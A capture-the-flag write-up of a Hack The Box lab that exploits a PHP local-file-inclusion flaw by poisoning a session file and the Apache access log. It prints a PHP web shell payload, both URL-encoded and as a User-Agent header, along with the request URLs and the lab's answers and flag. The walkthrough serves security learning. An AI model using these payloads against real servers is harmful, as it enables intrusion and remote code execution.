# Hack The Box - Log Poisoning LFI to RCE | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / File Inclusion &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `154.57.164.65:31863` &nbsp;•&nbsp; **Time taken:** 25 mins
>
> **Author:** Jithin Jelson

---

## Introduction

This lab requires us to exploit an LFI vulnerability in the file system using log poisoning techniques. We will attempt both server log poisoning and PHP session poisoning to answer the questions.

---

## Assessment Overview



---

## What I Learned

- How PHP stores session data server-side at `/var/lib/php/sessions/` with a `sess_` prefix, and how to include it via LFI.
- Poisoning the session by setting the `language` parameter, since its value gets written into my own session file.
- Injecting URL-encoded PHP into the session so that including the session file executes it as code.
- Fingerprinting the server as Apache so I knew the log lived at `/var/log/apache2/access.log`.
- Using Burp to plant a PHP payload in the `User-Agent` header, which Apache writes the payload into its log.
- Reading that poisoned log through the LFI to execute the payload and reach the root flag.

---

## Question 1 - RCE via PHP Session Poisoning

> **Gain RCE and submit the output of the following command: `pwd`**

We can attempt to use PHP session poisoning first. We navigate to our target website and check if we can find a session id.



*Figure 1 - The browser holds a `PHPSESSID` cookie (`7im7pb6p41b5h2s2qmp78b1cn6`). We also found the app runs Linux/Apache by forcing an error.*

Since it is Linux, the session file will be at `/var/lib/php/sessions/`, and the session id is most likely prefixed with `sess_`, so we prepend that and include it through the LFI.

```
index.php?language=/var/lib/php/sessions/sess_7im7pb6p41b5h2s2qmp78b1cn6
```



*Figure 2 - The session file contents are shown: `selected_language|s:6:"en.php";preference|s:7:"English";`.*

We can see the `selected_language` is something we control, but the `preference` is not. So we confirm the vulnerability by changing our `language` parameter.

```
index.php?language=server posining
```



*Figure 3 - Setting the `language` parameter writes into the session.*

When we refresh the session file, our value has changed.



*Figure 4 - The session now stores `selected_language|s:15:"server posining"`, confirming we control the stored value.*

Now that the vulnerability is confirmed, we can inject PHP code, URL encoded.

```
%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E
```



*Figure 5 - Pasting the URL-encoded web shell into the `language` parameter writes it into the session file.*

When we refresh the page including the session file and add `&cmd=id`, we get command execution.



*Figure 6 - Including the poisoned session with `&cmd=id` runs the shell: `uid=33(www-data)`.*

We have RCE. The question asks us to run `pwd` and submit it.

```
index.php?language=/var/lib/php/sessions/sess_7im7pb6p41b5h2s2qmp78b1cn6&cmd=pwd
```



*Figure 7 - `pwd` returns `/var/www/html`.*

Note: we had to refresh the RCE command in a separate tab, as entering our parameter and executing it changes the stored value.

**Answer:** `/var/www/html`

---

## Root Flag - RCE via Apache Log Poisoning

The lab then instructs us to use a different method to gain the root flag, so for this we will use Apache log poisoning.

Since we know it is Apache from earlier, the log will be at `/var/log/apache2/access.log` (for nginx we would swap `apache2` for `nginx`; on Windows it is at `C:\xampp\apache\logs\access.log`). We include it through the LFI.



*Figure 8 - The Apache `access.log` is included and rendered in the page.*

The useful header for us here is the `User-Agent` header, which we will intercept using Burp, modify, and send a simple PHP RCE payload to get code execution.



*Figure 9 - Capturing the request in Burp. We turn off intercept and send it to Repeater.*



*Figure 10 - The highlighted `User-Agent` value is what we change to a payload for the server to log and later execute as PHP.*

```
User-Agent: <?php system($_GET['cmd']); ?>
```



*Figure 11 - Replacing the `User-Agent` with the PHP web shell. Apache writes this straight into the log.*

Now we add `&cmd=id` to the URL parameter.



*Figure 12 - Including the poisoned log with `&cmd=id` returns `uid=33(www-data)`, confirming RCE.*

We are able to successfully get RCE, and can now navigate to the flag.

> Note: to find our log entry we must first put in a value we can recognise, remember the line, and then go to that same line to see our RCE.

We locate the flag with `cmd=ls+../../../../` and then read it.

```
index.php?language=/var/log/apache2/access.log&cmd=cat+../../../../c85ee5082f4c723ace6c0796e3a3db09.txt
```



*Figure 13 - Reading the flag file returns the root flag.*

**Answer:** `HTB{1095_5#0u1d_n3v3r_63_3xp053d}`
